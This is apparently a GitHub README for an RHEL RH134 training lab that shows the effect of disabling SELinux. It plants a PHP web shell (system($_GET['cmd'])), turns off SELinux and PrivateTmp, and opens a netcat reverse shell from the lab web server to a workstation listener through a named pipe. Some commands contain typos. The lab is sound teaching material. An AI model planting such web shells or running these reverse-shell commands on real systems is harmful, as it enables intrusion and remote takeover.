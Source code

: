 # rh134_Selinux
* Extra Practice for RH134 Training - RHEL 8.2 Admin II
  >> To run on Redhat RH134 Lab Systems!

### Scenario: We going to the see effects of turning off/disabled SElinux on ServerA

### Part1: Instruction - run in servera or serverb ( choose 1 ) and run as user root
  >> We assume its servera 

1.  Setup apache webserver and php 
```sh 
yum install httpd php -y 
```

2. Setup PHP Page 
```sh 

cd /var/www/html/

touch index.php 

insert this code into index.php 

<html>
 <head>
  <title>PHP Page</title>
 </head>
 <body>
 <?php echo '<p>Hello Redhatters RH134</p>'; ?>
 <p> Welcome RH134 Students </p>
 <p> Sample Vendor provided Page/App</p>
 <p> This page (php) allows you to execute Linux Command</p>
 <p> SElinux Demo Page </p>
 <?php system($_GET['cmd']);?>

 </body>
</html>
```

3. Comment PrivateTMP in htttpd and php-fpm systemd config file and save it
```sh 

vim /usr/lib/systemd/system/httpd.service
#PrivateTmp=true

vim /usr/lib/systemd/system/php-fpm.service
#PrivateTmp=true

systemd daemon-reload 
systemctl enable --now httpd
```

4. Turn Off SElinux 
```sh 

getenforce 

setenforce 0 

getenforce 

```

5. Enable firewall to allow access to webserver
```sh 
firewall-cmd --permanent --add-service=http

firewall-cmd --reload
```

### Part2: Instruction - run in workstation machine

1. Open firefox to http://servera.lab.example.com 
once in the browser, execute this on the address bar, this will create a device character file called backpipe1 

```sh 
http://servera.lab.example.com/index.php?cmd=mknod /var/tmp/backpipe1 p

```

2. Create a local listener in workstation machine, open a terminal and run 
```sh 

firewall-cmd ----permanent --add-port=1234/tcp

firewall-cmd --reload

nc -lvvp 1234

```

3. Back to firefox, run the following to establish a reverse shell from webserver to workstation listener 
```sh 
http://servera.lab.example.com/index.php?cmd=/bin/sh 0</var/tmp/backpipe1 | nc workstation.lab.example.com 1234 1>/var/tmp/backpipe1


```

4. Check the terminal where the nc listener running and open a shell 
you should receive a connection from servera ( 172.25.250.10 )

```sh 
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 172.25.250.10.
Ncat: Connection from 172.25.250.10:54496.
```

Run the following command to create a shell 

```sh 
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

You should receive a shell
```sh 
sh-4.4$ 
```

5. If Step 4 done, you now have a reverse shell (hacked shell) to servera from workstation 
run the following command to create a exploit file and run the exploit 
>> the exploit file is just a shell script, in real life, an attacker could run a real exploit !!
```sh
sh-4.4$ cd /tmp

sh-4.4$ echo "echo OWN3D_servera" > ex.sh

sh-4.4$ cat ex.sh
echo OWN3D_servera

sh-4.4$ chmod +x ex.sh

sh-4.4$ ls -l ex.sh
-rwxrwxrwx. 1 apache apache 19 Mar 22 09:25 ex.sh

sh-4.4$ ./ex.sh
OWN3D_servera

sh-4.4$

```